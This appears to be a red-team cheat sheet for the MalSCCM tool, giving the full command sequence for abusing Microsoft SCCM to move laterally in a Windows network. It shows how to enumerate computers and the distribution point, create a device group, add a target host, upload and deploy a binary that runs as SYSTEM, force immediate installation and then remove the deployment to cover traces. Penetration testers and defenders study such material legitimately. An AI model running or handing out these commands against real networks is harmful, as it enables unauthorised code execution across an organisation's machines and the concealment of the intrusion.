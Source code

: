 ### Source
```
https://github.com/nettitude/MalSCCM
```


### List possible targets for lateral movement using SCCM
```
MalSCCM.exe inspect /computers
```

### Check whether the Distribution Point is also the Primary Site (central management location)
```
MalSCCM.exe inspect /server:<distributionPointServerFqdn> /groups
```

### List Computers, Groups, PrimaryUser, Forest, Packages, Applications and Deployments
```
MalSCCM.exe inspect /all /server:<distributionPointServerFqdn>
```

### Create new group for deployment
```
MalSCCM.exe group /create /groupname:<newGroup> /grouptype:device
```

### Add target computer to group
```
MalSCCM.exe group /addhost /groupname:<newGroup> /host:<computer>
```

### Add application and upload binary that will be executed as SYSTEM
```
MalSCCM.exe app /create /name:<appName> /uncpath:"\\<distributionPointServerFqdn>\SCCMContentLib$\<file>.exe"
```

### Check if application exists
```
MalSCCM.exe inspect /applications
```

### Deploy application
```
MalSCCM.exe app /deploy /name:<appName> /groupname:<newGroup> /assignmentname:<deploymentName>
```

### Initiate checkin (trigger installation as soon as possible)
```
MalSCCM.exe checkin /groupname:<newGroup>
```

### Check deployment status
```
MalSCCM.exe inspect /deployments
```

### Remove deployments of applications 
```
MalSCCM.exe app /cleanup /name:<appName>
```

